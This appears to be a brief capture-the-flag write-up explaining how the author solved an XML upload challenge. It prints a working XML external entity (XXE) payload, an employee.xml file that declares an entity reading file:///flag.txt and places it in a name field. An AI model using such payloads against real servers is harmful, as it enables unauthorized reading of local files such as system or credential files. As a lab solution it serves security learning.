


# solution

<br>
We have a page like this. First of all, i download file example employee.xml and modify basic xxe payload. I create a external entity called **xxe** when calling this variable it will get the contents of the flag file. Upload this file.

```
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<employees>
  <employee>
    <name>&xxe;</name>
    <email>john.doe@example.com</email>
    <position>Troll</position>
    <salary>100000</salary>
  </employee>
  <employee>
    <name>Jane Doe</name>
    <email>jane.doe@example.com</email>
    <position>Developer</position>
    <salary>80000</salary>
  </employee>
  <employee>
    <name>Jim Smith</name>
    <email>jim.smith@example.com</email>
    <position>Designer</position>
    <salary>75000</salary>
  </employee>
</employees>
```

You can put **&xxe;** in any field. And i got the flag.
<br>
